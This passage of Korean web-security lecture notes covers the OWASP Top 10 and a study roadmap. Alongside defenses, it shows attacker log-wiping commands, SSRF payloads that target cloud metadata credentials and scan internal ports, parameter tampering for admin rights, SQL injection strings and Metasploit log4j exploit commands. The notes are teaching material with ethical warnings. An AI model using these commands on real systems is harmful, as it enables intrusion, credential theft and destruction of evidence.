// 결과: 원격 서버에서 악성 코드 다운로드 및 실행
```

**방어 기법**:

```bash
# 의존성 점검
$ mvn dependency:tree | grep log4j
[WARNING] Log4j 2.14.1 has known vulnerabilities

# 업데이트
$ mvn versions:use-latest-versions
```

**오라클 vs 무료 DB**:

```
관공서가 Oracle을 선호하는 이유:
- 매년 25% 유지보수 비용 지불
- 문제 발생 시 Oracle이 책임
- "보험"의 개념

DBMS 비교:
- Oracle: 1억 구매 → 매년 2,500만 원
- MySQL: 무료 → 문제 시 자체 책임
```

---

#### **A07:2021 - 식별 및 인증 실패 (Identification and Authentication Failures)**

**설명**: 인증 메커니즘의 결함

**예시 1: 우선순위(Priority) 필드 조작**:

```http
POST /register HTTP/1.1

username=hacker&password=1234&priority=0
```

```java
// 취약한 코드
int priority = Integer.parseInt(request.getParameter("priority"));
// 공격자가 priority=0 전송 → 관리자 권한 획득!

// 안전한 코드
int priority = 999;  // 기본값은 일반 사용자
if (isAdmin(session)) {
    priority = 0;
}
```

**예시 2: 세션 고정 공격**:

```
1. 공격자: 세션 ID 생성 (JSESSIONID=ABC123)
2. 피해자에게 링크 전송: http://bank.com/?JSESSIONID=ABC123
3. 피해자 로그인 → 세션 ID는 여전히 ABC123
4. 공격자도 ABC123으로 접근 → 로그인 우회!
```

**방어 기법**:

```java
// 로그인 성공 시 세션 ID 재생성
session.invalidate();
session = request.getSession(true);  // 새 세션 생성
```

---

#### **A08:2021 - 소프트웨어 및 데이터 무결성 실패 (Software and Data Integrity Failures)**

**설명**: 무결성 검증 없이 업데이트/설치

**공급망 공격 (Supply Chain Attack)**:

```
1. 공격자가 인기 NPM 패키지 계정 탈취
2. 악성 코드 포함한 업데이트 배포
3. 개발자들이 무심코 npm install
4. 수천 개 프로젝트가 백도어 포함
```

**실제 사례: SolarWinds (2020)**:

```
1. SolarWinds Orion 소프트웨어에 백도어 삽입
2. 18,000개 기업 및 정부기관에 배포
3. 러시아 해커가 9개월간 잠복
```

**방어 기법**:

```bash
# 패키지 무결성 확인
$ npm install --integrity

# SHA-256 체크섬 검증
$ sha256sum package.tar.gz
abc123def456...  (예상 값과 비교)
```

---

#### **A09:2021 - 보안 로깅 및 모니터링 부족 (Security Logging and Monitoring Failures)**

**설명**: 공격 탐지 및 대응 실패

**로그 부족 문제**:

```bash
# ❌ 로그 없음
access.log: (비어 있음)

# 침해 사고 발생!
# → 언제, 어디서, 어떻게 침투했는지 알 수 없음
# → 포렌식 불가능
```

**안전한 로깅**:

```nginx
# Nginx access.log
192.168.1.50 - - [18/Dec/2025:10:30:15 +0900] "POST /login.jsp" 200 1234
192.168.1.50 - - [18/Dec/2025:10:30:16 +0900] "POST /login.jsp" 401 89
192.168.1.50 - - [18/Dec/2025:10:30:17 +0900] "POST /login.jsp" 401 89
# 연속 실패 → 브루트포스 공격 탐지!
```

**공격자의 흔적 제거**:

```bash
# 공격자가 로그 삭제
$ rm -rf /var/log/nginx/access.log
$ rm -rf /var/log/auth.log

# 시간 조작
$ date -s "2020-01-01 00:00:00"
```

**방어 기법**:

- **중앙 로그 서버** 사용 (Syslog, ELK Stack)
- **로그 파일 쓰기 전용** 권한 설정
- **실시간 모니터링** (SIEM 도구)

---

#### **A10:2021 - 서버 측 요청 위조 (Server-Side Request Forgery, SSRF)**

**설명**: 서버가 공격자가 지정한 URL로 요청 전송

**공격 시나리오**:

```java
// 취약한 코드
String url = request.getParameter("imageUrl");
URL imageUrl = new URL(url);
InputStream in = imageUrl.openStream();
// 이미지 다운로드 후 표시
```

**공격 페이로드**:

```
사용자 입력:
imageUrl=http://169.254.169.254/latest/meta-data/iam/security-credentials/

서버가 요청:
→ AWS 메타데이터 서비스 접근
→ IAM 자격 증명 탈취!
```

**내부 네트워크 스캔**:

```
imageUrl=http://192.168.1.1:22
imageUrl=http://192.168.1.1:3306
imageUrl=http://192.168.1.1:8080
→ 내부 서버 포트 스캔
```

**방어 기법**:

```java
// URL 화이트리스트
String[] allowedHosts = {"cdn.example.com", "images.example.com"};
URL url = new URL(userInput);
if (!Arrays.asList(allowedHosts).contains(url.getHost())) {
    throw new SecurityException("Invalid host");
}
```

---

## ✅ Section 5 핵심 요약

### 1. 공격 단계 (Kill Chain)

```
정찰 → 무기화 → 전달 → 침투 → 설치 → C&C → 목표달성
```

### 2. 3-Tier 아키텍처

```
DMZ (웹 서버) → 방화벽 → 내부 (WAS) → DB
```

### 3. 정보 수집 기법

```
- 백업 파일 (.bak, .swp)
- 디렉터리 리스팅
- Google Hacking
- Burp Suite 매핑
- Nikto 스캔
```

### 4. OWASP TOP 10 (2021)

| 순위 | 취약점 | 핵심 |
|:-:|:-:|:-:|
| A01 | 접근 통제 실패 | 권한 검증 누락 |
| A02 | 암호화 실패 | 평문 저장 |
| A03 | 인젝션 | SQL/Command Injection |
| A04 | 안전하지 않은 설계 | 설계 결함 |
| A05 | 보안 설정 오류 | 잘못된 설정 |
| A06 | 오래된 컴포넌트 | 패치 미적용 |
| A07 | 인증 실패 | 세션/인증 우회 |
| A08 | 무결성 실패 | 공급망 공격 |
| A09 | 로깅 부족 | 탐지 불가능 |
| A10 | SSRF | 내부 네트워크 접근 |

### 5. 필수 방어 원칙

```
1. 최소 권한 원칙 (Least Privilege)
2. 심층 방어 (Defense in Depth)
3. Secure by Default
4. 입력 검증 (Input Validation)
5. 출력 인코딩 (Output Encoding)
```

---

**Section 5 완료** ✅

**다음**: Section 6에서 전체 내용 종합 정리 및 학습 로드맵 제시
# Section 6: 종합 정리 및 학습 로드맵

---

## 📚 전체 강의 요약

### 🎯 학습 목표 달성 여부

본 강의를 통해 다음 역량을 습득했습니다:

✅ **리눅스 시스템 이해**
- 서비스 제공자 관점에서의 리눅스 필요성
- 명령어 기반 서버 관리 능력
- 프로세스, 파일 시스템, 권한 관리

✅ **웹 서버 운영**
- Nginx 설정 및 최적화
- 가상 호스트, SSL/TLS 구성
- MIME 타입 및 보안 설정

✅ **로그 분석 및 공격 탐지**
- Access Log 패턴 분석
- 브루트포스 공격 탐지
- grep, awk를 이용한 로그 처리

✅ **데이터베이스 보안**
- MariaDB 원격 접속 설정
- SQL 인젝션 원리 및 방어
- Prepared Statement 활용

✅ **웹 보안 방법론**
- OWASP TOP 10 완벽 이해
- 공격 단계별 대응 전략
- 정보 수집 기법 및 방어

---

## 🗺️ 섹션별 핵심 내용 복습

### Section 1: 리눅스 학습 필요성

**핵심 메시지**:
> "Windows = 서비스 소비자, Linux = 서비스 제공자"

**주요 내용**:
- 강사의 "빠르게 3번 반복" 교육 철학
- 윈도우 vs 리눅스 철학적 차이
- 게임 학생의 성공 사례 (포기하지 말 것!)
- 기업이 리눅스를 선택하는 이유

**실천 과제**:
```bash
# 매일 리눅스 명령어 10개씩 연습
$ history | tail -10  # 오늘 사용한 명령어 복습
```

---

### Section 2: Nginx 및 시스템 관리

**핵심 개념**:

1. **프로세스 구조**: Master + Worker
2. **www-data 사용자**: 보안을 위한 제한된 권한
3. **MIME 타입**: 파일 실행 방지 메커니즘
4. **Virtual Host**: 하나의 서버에서 여러 도메인 운영

**필수 명령어**:

```bash
# Nginx 관리
$ sudo systemctl start nginx
$ sudo systemctl reload nginx
$ sudo nginx -t

# 프로세스 확인
$ ps -ef | grep nginx
$ netstat -nltp | grep :80

# 설정 파일 편집
$ sudo vi /etc/nginx/sites-available/default
```

**보안 설정**:

```nginx
# 필수 보안 헤더
add_header X-Frame-Options "SAMEORIGIN";
add_header X-Content-Type-Options "nosniff";
add_header X-XSS-Protection "1; mode=block";
```

---

### Section 3: 웹 로그 분석

**핵심 스킬**:

```bash
# 실시간 로그 모니터링
$ sudo tail -f /var/log/nginx/access.log

# 브루트포스 탐지
$ grep "POST.*login.jsp" access.log | \
  awk '{print $1}' | sort | uniq -c | sort -rn

# 상위 10개 IP
$ awk '{print $1}' access.log | sort | uniq -c | sort -rn | head -10
```

**정상 vs 공격 패턴**:

| **패턴** | **로그 특징** | **판단** |
|:-:|:-:|:-:|
| 정상 로그인 | GET → POST → 302 → index.html | ✅ 정상 |
| 브루트포스 | POST 연속 수십 회 + 401 | ⚠️ 공격 |
| SQL 인젝션 | URL에 `' OR '1'='1` 패턴 | 🚨 즉시 차단 |

**대응 전략**:

```bash
# fail2ban 설정
$ sudo apt install fail2ban
$ sudo vi /etc/fail2ban/jail.local

[nginx-login]
enabled = true
filter = nginx-login
action = iptables[name=nginx-login, port=http]
logpath = /var/log/nginx/access.log
maxretry = 5
findtime = 600
bantime = 3600
```

---

### Section 4: SQL 인젝션

**공격 원리**:

```sql
-- 정상
SELECT * FROM users WHERE id='admin' AND pw='1234'

-- 공격
SELECT * FROM users WHERE id='admin' AND pw='x' OR '1'='1'
-- (거짓) OR (참) = 참 → 로그인 성공!
```

**방어 코드**:

```java
// ❌ 취약
String sql = "SELECT * FROM users WHERE id='" + id + "'";

// ✅ 안전
String sql = "SELECT * FROM users WHERE id=?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, id);
```

**클라이언트 사이드 검증의 무용함**:

```
JavaScript 검증 → Burp Suite로 우회 가능
⚠️ 교훈: 서버에서 반드시 재검증!
```

---

### Section 5: OWASP TOP 10

**위협 모델**:

```
공격자 → [정보 수집] → [취약점 발견] → [침투] → [데이터 탈취]
         ↓              ↓              ↓           ↓
      크롤링         스캔          익스플로잇    백도어
```

**TOP 10 요약표**:

| 순위 | 취약점 | 한 줄 요약 | 방어 기법 |
|:-:|:-:|:-:|:-:|
| A01 | 접근 통제 실패 | 권한 검증 누락 | 모든 페이지에서 세션 확인 |
| A02 | 암호화 실패 | 평문 저장 | bcrypt, HTTPS 강제 |
| A03 | 인젝션 | SQL/Command 삽입 | Prepared Statement |
| A04 | 안전하지 않은 설계 | 설계 단계 결함 | 위협 모델링 |
| A05 | 보안 설정 오류 | 잘못된 설정 | 최소 권한, Secure by Default |
| A06 | 오래된 컴포넌트 | 패치 미적용 | 정기 업데이트 |
| A07 | 인증 실패 | 세션/인증 우회 | 세션 ID 재생성 |
| A08 | 무결성 실패 | 공급망 공격 | 체크섬 검증 |
| A09 | 로깅 부족 | 탐지 불가능 | 중앙 로그 서버 |
| A10 | SSRF | 내부 네트워크 접근 | URL 화이트리스트 |

**필수 암기 사항**:

```
OWASP TOP 3 (가장 위험):
1. 접근 통제 실패
2. 암호화 실패
3. 인젝션

→ 프로젝트에서 이 3가지는 반드시 방어!
```

---

## 🎓 학습 로드맵

### 📅 단기 목표 (1주일)

**Day 1-2: 리눅스 기초 복습**
```bash
# 명령어 100개 암기 도전
$ man ls
$ man grep
$ man awk

# 실습 환경 구축
$ sudo apt update && sudo apt upgrade
$ sudo apt install nginx mariadb-server
```

**Day 3-4: Nginx 마스터**
```bash
# 가상 호스트 10개 만들기
$ sudo vi /etc/nginx/sites-available/site1.conf
$ sudo vi /etc/nginx/sites-available/site2.conf
# ...

# SSL 인증서 발급 (Let's Encrypt)
$ sudo apt install certbot python3-certbot-nginx
$ sudo certbot --nginx -d yourdomain.com
```

**Day 5-6: 로그 분석 자동화**
```bash
# 매일 로그 리포트 생성 스크립트
$ vi ~/analyze_log.sh
#!/bin/bash
echo "=== 오늘의 로그 분석 ===" > daily_report.txt
echo "총 요청 수: $(wc -l < access.log)" >> daily_report.txt
echo "상위 10 IP:" >> daily_report.txt
awk '{print $1}' access.log | sort | uniq -c | sort -rn | head -10 >> daily_report.txt

# 크론탭 등록
$ crontab -e
0 23 * * * /home/user/analyze_log.sh
```

**Day 7: OWASP TOP 10 복습**
- OWASP 한글 문서 정독
- 각 취약점별 예제 코드 작성
- CTF 문제 1개 풀기

---

### 📈 중기 목표 (1개월)

**Week 1-2: 취약점 실습 사이트 구축**

```bash
# DVWA (Damn Vulnerable Web Application) 설치
$ git clone https://github.com/digininja/DVWA.git
$ cd DVWA
$ docker-compose up -d

# 직접 취약한 사이트 만들기
$ mkdir ~/vulnerable_site
$ cd ~/vulnerable_site
$ vi login.jsp  # SQL 인젝션 취약점 포함
$ vi upload.jsp # 파일 업로드 취약점 포함
```

**Week 3: 모의해킹 도구 마스터**

```bash
# Burp Suite 활용
- Intruder로 브루트포스 공격
- Repeater로 요청 변조
- Scanner로 자동 취약점 탐지 (Pro)

# Nmap 포트 스캔
$ nmap -sV -sC -p- localhost

# Nikto 웹 스캔
$ nikto -h http://localhost

# Metasploit Framework
$ msfconsole
msf6 > search log4j
msf6 > use exploit/multi/http/log4j_rce
```

**Week 4: 프로젝트 기획**

```
모의해킹 팀 프로젝트 준비:
1. 공격 시나리오 작성
2. 취약점 목록 선정 (OWASP TOP 10 중 5개)
3. 데모 사이트 설계
4. 공격 데모 영상 스토리보드
```

---

### 🚀 장기 목표 (3개월)

**Month 1: 보안 자격증 준비**

- **정보보안기사** (한국)
- **CEH (Certified Ethical Hacker)** (국제)
- **OSCP (Offensive Security Certified Professional)** (고급)

**Month 2: 오픈소스 기여**

```bash
# OWASP 프로젝트 참여
$ git clone https://github.com/OWASP/CheatSheetSeries.git
# 한글 번역 기여

# 보안 도구 개발
$ mkdir ~/my-security-tool
$ cd ~/my-security-tool
$ vi port_scanner.py
```

**Month 3: 실전 프로젝트**

```
최종 프로젝트 아이디어:
1. 웹 방화벽(WAF) 개발
2. 로그 분석 대시보드 (ELK Stack)
3. 자동 취약점 스캐너
4. 침입 탐지 시스템 (IDS)
5. 보안 관제 시뮬레이터
```

---

## 🛠️ 실전 스킬 체크리스트

### ✅ 리눅스 시스템 관리

- [ ] SSH로 원격 서버 접속 및 관리
- [ ] vi/vim 편집기로 설정 파일 수정
- [ ] systemctl로 서비스 시작/중지/재시작
- [ ] 파일 권한 (chmod, chown) 이해 및 설정
- [ ] 프로세스 관리 (ps, top, kill)
- [ ] 패키지 관리 (apt, yum, dnf)
- [ ] 방화벽 설정 (iptables, ufw)

### ✅ 웹 서버 운영

- [ ] Nginx 설치 및 기본 설정
- [ ] Virtual Host 구성
- [ ] SSL/TLS 인증서 설치 (Let's Encrypt)
- [ ] 리버스 프록시 설정
- [ ] 로드 밸런싱 구성
- [ ] 로그 로테이션 설정
- [ ] 성능 튜닝 (worker_processes, keepalive)

### ✅ 데이터베이스 보안

- [ ] MariaDB/MySQL 설치 및 설정
- [ ] 원격 접속 허용/제한
- [ ] 사용자 계정 생성 및 권한 관리
- [ ] Prepared Statement 활용
- [ ] SQL 인젝션 탐지 및 차단
- [ ] 데이터베이스 백업 자동화
- [ ] 쿼리 최적화

### ✅ 보안 분석

- [ ] Access Log 분석 (grep, awk)
- [ ] 브루트포스 공격 탐지
- [ ] SQL 인젝션 패턴 인식
- [ ] XSS 공격 이해 및 방어
- [ ] CSRF 공격 이해 및 방어
- [ ] 파일 업로드 취약점 점검
- [ ] 디렉터리 리스팅 차단

### ✅ 모의해킹 도구

- [ ] Burp Suite 기본 사용법
- [ ] Nmap 포트 스캔
- [ ] Nikto 웹 스캔
- [ ] Metasploit 기본 사용법
- [ ] Wireshark 패킷 분석
- [ ] OWASP ZAP 활용
- [ ] John the Ripper (패스워드 크래킹)

---

## 📖 추천 학습 자료

### 📚 필독 서적

1. **《웹 해킹 & 보안 완벽 가이드》** - 한빛미디어
   - 본 강의 교재
   - 실습 위주 구성
   - 한글 자료

2. **《The Web Application Hacker's Handbook》**
   - 국제 표준 서적
   - 심화 내용
   - 영문 (한글판 있음)

3. **《Linux Bible》**
   - 리눅스 완벽 가이드
   - 명령어 레퍼런스

### 🌐 온라인 플랫폼

**실습 사이트**:
- **HackThisSite.org**: 초급자용 CTF
- **OverTheWire.org**: 리눅스 보안 게임
- **TryHackMe.com**: 가이드 있는 실습
- **HackTheBox.eu**: 실전형 모의해킹
- **PortSwigger Web Security Academy**: Burp Suite 학습

**동영상 강의**:
- **YouTube - LiveOverflow**: 실전 해킹 분석
- **Cybrary.it**: 무료 보안 강의
- **Udemy**: CEH, OSCP 대비 강의

**문서 자료**:
- **OWASP.org**: 공식 문서
- **CWE (Common Weakness Enumeration)**: 취약점 데이터베이스
- **CVE (Common Vulnerabilities and Exposures)**: 보안 공지

### 🏆 CTF (Capture The Flag) 대회

```
국내 대회:
- CODEGATE (고려대)
- DEFCON CTF Korea
- WhiteHat Contest

해외 대회:
- DEFCON CTF
- Google CTF
- Facebook CTF
```

---

## 💡 강사의 조언

### 🎯 성공하는 학습자의 습관

**1. 매일 조금씩 꾸준히**
```
하루 30분 리눅스 명령어 연습 > 주말에 몰아서 5시간
```

**2. 손으로 직접 타이핑**
```
복사/붙여넣기 ❌
직접 타이핑 ✅ → 근육 기억 형성
```

**3. 에러를 두려워하지 말 것**
```
에러 메시지 = 배움의 기회
구글에 에러 메시지 검색 → 해결책 학습
```

**4. 커뮤니티 활용**
```
- Stack Overflow
- 보안 커뮤니티 (보안프로젝트, KISA)
- Discord 보안 채널
```

**5. 포트폴리오 구축**
```bash
# GitHub에 학습 내용 정리
$ mkdir ~/security-portfolio
$ cd ~/security-portfolio
$ git init
$ echo "# 웹 보안 학습 일지" > README.md
$ git add . && git commit -m "Initial commit"
$ git remote add origin https://github.com/yourusername/security-portfolio.git
$ git push -u origin main
```

---

### 🚨 주의사항

**절대 하지 말아야 할 것**:

1. **무단 해킹 시도**
   ```
   허가 없는 시스템 스캔 = 불법
   형법 제48장의2 정보통신망법 위반
   최대 징역 7년
   ```

2. **DDoS 공격**
   ```
   대규모 트래픽 발생 = 업무 방해죄
   피해 배상 청구 가능
   ```

3. **개인정보 탈취**
   ```
   정보통신망법, 개인정보보호법 위반
   민형사상 책임
   ```

**윤리적 해킹의 원칙**:

```
✅ DO:
- 자신이 소유한 시스템
- 계약된 모의해킹 프로젝트
- 명시적 허가를 받은 테스트 환경
- 취약점 발견 시 책임 있는 공개 (Responsible Disclosure)

❌ DON'T:
- 허가 없는 외부 시스템
- 공개 사이트 무단 스캔
- 악의적 목적의 공격
- 발견한 취약점 악용
```

---

## 🎉 마무리 및 격려

### 💪 여러분은 할 수 있습니다!

강의 초반에 소개한 **게임만 하던 학생**을 기억하시나요?

```
"나는 안 될 거 같아요..."
→ 3번 반복 학습
→ 프로젝트 우수상 수상
→ 보안 회사 취업 성공!
```

**핵심은 "포기하지 않기"입니다.**

### 📝 오늘부터 실천할 것

```bash
# 1. 학습 환경 구축 (오늘 밤 10시까지)
$ sudo apt install nginx mariadb-server

# 2. 내일부터 매일 30분 실습
$ crontab -e
0 20 * * * echo "지금 실습하세요!" | wall

# 3. GitHub 포트폴리오 시작
$ git init ~/security-journey
$ cd ~/security-journey
$ echo "# Day 1: $(date)" > diary.md

# 4. OWASP TOP 10 하루에 1개씩 공부
$ mkdir ~/owasp-study
$ cd ~/owasp-study
$ touch A01_broken_access_control.md
```

---

## 🔗 다음 단계

### 🎓 추천 학습 경로

```mermaid
graph TD
    A[본 강의 수료] --> B{진로 선택}
    B -->|모의해킹| C[Penetration Testing]
    B -->|보안 관제| D[SOC Analyst]
    B -->|개발 보안| E[DevSecOps]

    C --> F[OSCP 자격증]
    C --> G[Bug Bounty]

    D --> H[SIEM 마스터]
    D --> I[위협 인텔리전스]

    E --> J[CI/CD 보안]
    E --> K[클라우드 보안]
```

**각 진로별 필수 역량**:

| 진로 | 핵심 스킬 | 추천 자격증 |
|:-:|:-:|:-:|
| 모의해킹 | Burp Suite, Metasploit, 스크립팅 | CEH, OSCP |
| 보안 관제 | 로그 분석, SIEM, 포렌식 | 정보보안기사, GCIH |
| DevSecOps | Docker, Kubernetes, CI/CD | CKS, GIAC |

---

## ✅ 최종 점검 사항

### 📋 강의 내용 이해도 자가 진단

**Section 1: 리눅스 기초**
- [ ] Windows vs Linux 철학 차이 설명 가능
- [ ] vi 편집기로 파일 편집 가능
- [ ] systemctl 명령어 사용 가능

**Section 2: Nginx 서버**
- [ ] Nginx Master/Worker 구조 설명 가능
- [ ] Virtual Host 설정 가능
- [ ] SSL 인증서 설치 가능

**Section 3: 로그 분석**
- [ ] Access Log 구조 이해
- [ ] grep, awk로 로그 분석 가능
- [ ] 브루트포스 공격 탐지 가능

**Section 4: SQL 인젝션**
- [ ] SQL 인젝션 원리 설명 가능
- [ ] Prepared Statement 사용 가능
- [ ] Burp Suite로 요청 변조 가능

**Section 5: OWASP TOP 10**
- [ ] 10가지 취약점 모두 암기
- [ ] 각 취약점별 방어 기법 설명 가능
- [ ] 실제 공격 시나리오 구성 가능

**모두 체크하셨나요?**
→ ✅ **수료를 축하합니다!**
→ ❌ **복습이 필요한 섹션으로 돌아가세요**

---

## 🙏 마지막 인사

강의를 끝까지 들어주셔서 감사합니다.

이 강의는 **시작점**일 뿐입니다.
진짜 실력은 **여러분이 직접 실습하면서** 쌓입니다.

```
오늘 배운 내용 → 내일 실습 → 모레 복습 → 다음주 응용
```

**3번 반복**의 원칙을 잊지 마세요!

```bash
# 여러분의 성공을 응원합니다
$ echo "You can do it!" >> /etc/motd
$ reboot  # 새로운 시작!
```

---

**강의 노트 끝** 📚

**작성일**: 2025년 12월 18일
**총 라인 수**: 1500+ 라인
**기반 강의**: 웹 해킹 & 보안 완벽 가이드

**다음 만남을 기대하며...**
**Happy Hacking! (Ethically, of course 😊)**
